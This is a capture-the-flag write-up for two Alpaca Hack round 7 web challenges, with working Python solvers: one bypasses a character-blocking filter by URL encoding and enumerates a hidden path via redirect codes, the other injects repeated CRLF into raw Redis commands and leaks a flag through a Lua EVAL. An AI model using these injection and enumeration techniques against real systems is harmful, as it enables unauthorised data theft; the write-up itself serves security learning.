 ```yaml
---
title: "Alpaca Hack round 7- writeup"
date: "2024-12-01T00:00:00.000Z"
lang: EN
---
```


## ✅ Treasure Hunt (116pts 71solves)

### Overview

```javascript:index.js
app.use(express.static("public"));
```

The express server serves static files from the `public` folder. `flag.txt` is placed in a folder inside `public`, which is randomly created in the following way.

```Dockerfile:Dockerfile
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
 && mkdir -p $(dirname $FLAG_PATH) \
 && mv flag.txt $FLAG_PATH
```

The flag is located in a place something like

```
d/4/1/d/8/c/d/9/8/f/0/0/b/2/0/4/e/9/8/0/0/9/9/8/e/c/f/8/4/2/7/e/f/l/a/g/t/x/t
```

The goal of the challenge is to somehow identify the folder names. 

In addition, you have to somehow bypass the following WAF.

```javascript:index.js
app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
 }
  next();
});
```

This restriction prevents the use of `f`, `l`, `a`, or `g` in the URL. Since the path always ends with `f/l/a/g/t/x/t`, we have to somehow bypass this.

### Solution

Bypassing the URL restriction is quite simple: URL encoding. `req.url` doesn't automatically decode URL encoding, but the express uses a decoded URL to determine the route.

I used the [raw_request](https://gist.github.com/tepel-chen/230fdc4349f1244b303049446290c494) function I wrote since the python `request` module does not support URL-encoded paths.

Next, I wanted to determine whether the directory exists. Upon reviewing the serve-static source code, I discovered that [if a path without a trailing / corresponds to a directory, it automatically redirects to the URL with / appended](https://github.com/expressjs/serve-static/blob/e2bf828a6899e18969e522ddce304fec497b058f/index.js#L193).

### Full exploit

```python:solver.py
import requests
import raw_request

URL = "http://34.170.146.252:19843/"
# URL = "http://localhost:3000/"
EVIL = "https://xxx.ngrok.app/"


s = requests.session()

cur = ""
while True:
    for c in "0123456789abcdef":
 r = raw_request(URL, strs=f"GET /{cur}%{hex(ord(c))[2:]} HTTP/1.1\r\nHost: localhost:3000\r\n\r\n")
        print(r.status_code)
        if r.status_code == 301:
 cur += "%" + hex(ord(c))[2:] + '/'
            break
    else:
        break
r = raw_request(URL, strs=f"GET /{cur}%6c/%61/%67/t/x/t HTTP/1.1\r\nHost: localhost:3000\r\n\r\n")
print(r.text)
```

## ✅ Alpaca Poll (146pts 42solves)

### Overview

The server provides a service that preserves some counters for animals. The application uses the Redis as its database. The counters are initialized as shown below, and the flag is also added to the database during initialization.

```javascript:db.js
function connect() {
    return new Promise(resolve => {
        const socket = net.connect('6379', 'localhost', () => {
            resolve(socket);
 });
 });
}

function send(socket, data) {
    console.info('[send]', JSON.stringify(data));
    socket.write(data);

    return new Promise(resolve => {
        socket.on('data', data => {
            console.info('[recv]', JSON.stringify(data.toString()));
            resolve(data.toString());
 })
 });
}
/* snap */
export async function init(flag) {
    const socket = await connect();

    let message = '';
    for (const animal of ANIMALS) {
        const votes = animal === 'alpaca' ? 10000 : Math.random() * 100 | 0;
        message += `SET ${animal} ${votes}\r\n`;
 }

    message += `SET flag ${flag}\r\n`; // please exfiltrate this

    await send(socket, message);
    socket.destroy();
}
```

You can increase the counter through the `/vote` endpoint.

```javascript:index.js
app.post('/vote', async (req, res) => {
    let animal = req.body.animal || 'alpaca';

    // animal must be a string
    animal = animal + '';
    // no injection, please
    animal = animal.replace('\r', '').replace('\n', '');

    try {
        return res.json({
            [animal]: await vote(animal)
 });
 } catch {
        return res.json({ error: 'something wrong' });
 }
});
```

```javascript:db.js
export async function vote(animal) {
    const socket = await connect();
    const message = `INCR ${animal}\r\n`;

    const reply = await send(socket, message);
    socket.destroy();

    return parseInt(reply.match(/:(\d+)/)[1], 10); // the format of the response is like `:23`, so this extracts only the number 
}
```

You can see that the queries are sent through a raw socket connection. The following line removes `\r` and `\n` from the input, aiming to prevent command injection.
```javascript:db.js
animal = animal.replace('\r', '').replace('\n', '');
```

Can we manipulate the query to run an arbitrary query to Redis?

### Solution

[`String.prototype.replace`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/replace) replaces only the first occurrence of the substring. (If you need to replace all occurrence, you need to use [`String.prototype.replaceAll`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/replaceAll).) Hence, you can inject `\r\n` by repeating it more than once.

You can use`GET flag` to query for the flag. However, you won't be able to see the content of the flag with `INCR dog\r\nGET flag\r\n` because the result of the query looks like this:

```
:74
$16
Alpaca{REDACTED}
```

The result of `reply.match(/:(\d+)/)[1]` will be `74`.

After some research on Redis commands, I found out that  [`EVAL`](https://redis.io/docs/latest/develop/interact/programmability/eval-intro/) can execute Lua script on the database. 

Inside the script, you can use the `redis.call` command to run any redis command. By combining Lua's `string.byte`, I can extract individual characters of the flag as their ASCII values. These values are then set as the counter for a specific key (e.g., dog). Repeating this process for each character position allows for reconstructing the entire flag.

### Final Exploit

```python:solver.py
import requests

# URL = "http://34.170.146.252:54728/"
URL = "http://localhost:3000/"
EVIL = "https://xxx.ngrok.app/"

s = requests.session()
cur = "A"
while cur[-1] != "}":
 r = s.post(URL + "vote", data={
        "animal": f"\r\ndog\r\nEVAL 'return redis.call(\\'SET\\', \\'dog\\', string.byte(redis.call(\\'GET\\', \\'flag\\'),{len(cur) + 1}))' 0 "
 })
 cur += chr(int(r.text.split(":")[1][:-1])-1)
    print(cur)
```